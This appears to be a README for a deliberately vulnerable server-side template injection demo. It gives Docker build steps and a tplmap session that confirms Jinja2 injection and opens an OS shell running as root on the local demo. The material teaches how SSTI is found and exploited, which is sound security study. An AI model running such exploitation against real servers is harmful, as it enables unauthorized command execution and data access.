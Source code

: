 Server Side Template Injection
=============
This demo demonstrates a very simple SSTI example.

Build and run the Dockerfile:

```bash
$ docker build -t sstidemo .
$ docker run -p 3000:3000 sstidemo
```

You can exploit this manually with a Jinja2 injection, or you can use [tplmap](https://github.com/epinna/tplmap) which is a SSTI exploitation/detection tool. 

```bash
$ python3 tplmap.py --request GET -u 'http://0.0.0.0:3000/*' --os-shell

Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

Testing if URL parameter 'url' is injectable
Smarty plugin is testing rendering with tag '*'
Smarty plugin is testing blind injection
Mako plugin is testing rendering with tag '${*}'
Mako plugin is testing blind injection
Python plugin is testing rendering with tag 'str(*)'
Python plugin is testing blind injection
Tornado plugin is testing rendering with tag '{{*}}'
Tornado plugin is testing blind injection
Jinja2 plugin is testing rendering with tag '{{*}}'
Jinja2 plugin has confirmed injection with tag '{{*}}'
Tplmap identified the following injection point:

  URL parameter: url
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

Run commands on the operating system.

posix-linux $ id
uid=0(root) gid=0(root) groups=0(root)

posix-linux $ ls
__pycache__
main.py
static
templates
posix-linux $ Exiting.
```
